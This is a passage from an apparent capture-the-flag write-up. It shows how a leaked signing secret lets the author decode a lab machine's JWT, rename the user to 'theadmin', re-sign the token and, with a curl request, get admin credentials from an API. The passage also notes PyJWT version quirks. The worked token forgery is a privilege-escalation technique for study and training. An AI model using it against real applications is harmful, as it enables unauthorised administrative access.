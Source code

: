 That means the secret is good!

#### Note on PyJWT Versions
*Update 2 April 2022*: Knightmare pinged to to say that `jwt.decode` was throwing errors when trying to decode the token. I was running PyJWT 1.7.1, and he had the most recent version, 2.3.0. In version 2.0.1, the [changelog](https://pyjwt.readthedocs.io/en/2.0.1/changelog.html#require-explicit-algorithms-in-jwt-decode-by-default) shows:

![image-20220402092806554](https://0xdfimages.gitlab.io/img/image-20220402092806554.png)

These two lines show the issue, and how to make this work. The server doesn’t need to be told the algorithm because it’s in the JWT itself. Still, for security reasons, you don’t want the user being able to dictate that, so making the server explicitly state the expected algorithm is good. To get around that, I can set ` verify\_signature `to` False` in the options:

```

>>> jwt.decode(token, secret, options={"verify_signature": False})
{'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}

```

Since the [usage examples](https://pyjwt.readthedocs.io/en/2.0.1/usage.html) show `algorithms` takes a list of algorithms, I could also guess that the algorithm is either “HS256” or “RS256” (the only two I’m aware of in use) and give it both:

```

>>> jwt.decode(token, secret, algorithms=["HS256", "RS256"])
{'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}

```

#### Create Token

I’ll note above that `jwt.decode()` returns a dictionary with the various data from the JWT. I’ll save that to `j`, and then change the name to theadmin and use `jwt.encode()` to create a new token from that dictionary:

```

>>> j = jwt.decode(token, secret)
>>> j['name'] = 'theadmin'
>>> jwt.encode(j, secret)
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8'

```

`/api/priv` confirms that this token has the admin role:

```

oxdf@hacky$ curl -s 'http://10.10.11.120/api/priv' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq .
{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}

```

